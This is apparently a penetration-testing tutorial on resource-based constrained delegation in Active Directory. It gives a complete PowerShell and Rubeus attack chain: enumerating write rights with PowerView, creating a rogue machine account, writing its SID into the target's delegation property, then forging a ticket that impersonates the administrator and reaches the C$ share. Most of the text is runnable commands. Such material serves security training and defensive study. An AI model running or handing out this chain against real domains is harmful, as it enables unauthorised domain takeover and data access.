

## Resource Based Constrained Delegation
_SeEnableDelegationPrivilege_ privilege on the domain controller, which is typically only enabled for Domain Admins.
With the release of Windows Server 2012, Microsoft introduced _resource-based constrained delegation_ (RBCD), which is meant to remove the requirement of highly elevated access rights like SeEnableDelegationPrivilege from system administrators.

Once RBCD has been configured, the frontend service can use S4U2Self to request the forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.
Unlike constrained delegation, under RBCD the KDC checks if the SID of the frontend service is present in the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property of the backend service.

## Enumeration
We start our enumeration with powerview:
```powershell
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
The output reveals that the _dave_ user has GenericWrite to appsrv01:



Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including _msDS-AllowedToActOnBehalfOfOtherIdentity_ and add the SID of a different computer.
Once a SID is added, we will act in the context of that computer account and we can execute the S4U2Self and S4U2Proxy extensions to obtain a TGS for appsrv01

To do this we can start by adding a computer account on object with a selected password with the powermad.ps1 powershell script:
```powershell
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
. .\powermad.ps1
New-MachineAccount -MachineAccount h4xcomputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
Get-DomainComputer -Identity h4xComputer
```
(first command lets us enumerate _ms-DS-MachineAccountQuota_)

The _msDS-AllowedToActOnBehalfOfOtherIdentity_ property stores the SID as part of a security descriptor in a binary format. We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack.
We can do this with the following commands:
```powershell
$sid =Get-DomainComputer -Identity h4xComputer -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

$SDbytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDbytes,0)

```

After the _SecurityDescriptor_ has been converted to a byte array, we can use Get-DomainComputer to obtain a handle to the computer object for appsrv01 and then pipe that into Set-DomainObject:

```Powershell
Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

After writing the _SecurityDescriptor_ to the property field, we should verify it. We can do this by reading the binary version of it with Get-DomainComputer, then instantiating a _SecurityDescriptor_ object with _RawSecurityDescriptor_ and finally displaying the DACL:
```Powershell
$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

$Descriptor.DiscretionaryAcl

ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-2101
```
(The _SecurityDescriptor_ was indeed set correctly in the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property for appsrv01.)

## The Attack
We can now begin our attack with the conversion of the password into ntlm hash and then using rubeus:
```Powershell
.\Rubeus.exe hash /password:h4x

.\Rubeus.exe s4u /user:h4xcomputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

```

Thus, the TGT for mycomputer machine account is obtained, forwarded back to KDC (as the administrator user) and finally, the S4U2Proxy is invoked to request a TGS for the file system service on appsrv01 and is injected into memory.

Thus we can interact with the file system with:
```Powershell
dir "\\appsrv01.prod.corp1.com\c$"
```

